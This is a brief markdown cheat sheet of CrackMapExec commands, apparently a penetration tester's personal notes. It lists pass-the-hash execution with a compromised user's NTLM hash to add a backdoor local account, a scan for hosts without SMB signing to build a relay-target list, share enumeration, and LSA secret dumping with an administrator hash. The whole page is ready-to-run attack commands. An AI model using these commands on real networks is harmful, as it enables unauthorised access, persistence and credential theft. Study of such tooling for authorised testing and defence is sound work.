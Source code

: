 <!-- TITLE: Crackmapexec -->
<!-- SUBTITLE: A quick summary of Crackmapexec -->

# Common CME Runs
## How to execute commands
```text
./crackmapexec.py smb 192.168.10.25 -d . -u compromiseduser -H aad3LMPORTION04eeaad3b435b51404ee:729bb174dNTLMPORTION2f6cd816f377 -x 'net user summit ae2rpw4U!! /add'  
```

## Find Hosts that don't require signing
```
crackmapexec.py smb 192.168.10.0/24 --gen-relay-list targets2
```

## Show me the shares on the network
```
crackmapexec.py smb hostnames.txt --shares
```

## Get some more secrets
```
cme smb TARGET -u Administrator -H <hash> --local-auth --lsa
```
